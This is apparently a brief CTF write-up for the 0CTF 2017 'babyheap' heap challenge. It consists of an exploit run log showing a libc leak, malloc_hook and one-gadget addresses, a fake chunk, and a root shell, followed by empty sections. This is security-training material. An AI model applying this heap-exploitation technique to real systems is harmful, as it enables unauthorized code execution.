


# 0CTF 2017 Babyheap

# Logs

```Python
[+] Starting local process './babyheap_69a42acd160ab67a68047ca3f9c390b9': pid 210
[*] '/home/work/0ctf_2017/babyheap/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Paused (press any to continue)
[*] Paused (press any to continue)
[*] leaking libc
x\xbb\x93\x8dr\x7f\x00\x00x\xbb\x93\x8dr\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00

leaked : 0x7f728d93bb78
libc base = 0x7f728d577000
realloc_hook = 0x7f728d93bb08
malloc_hook = 0x7f728d93bb10
onegadget  0x7f728d5bc26a
fake chunk : 0x7f728d93baed
[*] Paused (press any to continue)
[*] Switching to interactive mode
1. Allocate
2. Fill
3. Free
4. Dump
5. Exit
Command: $ 
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$  

```
shifted fake chunk:




original position: 




# Reference

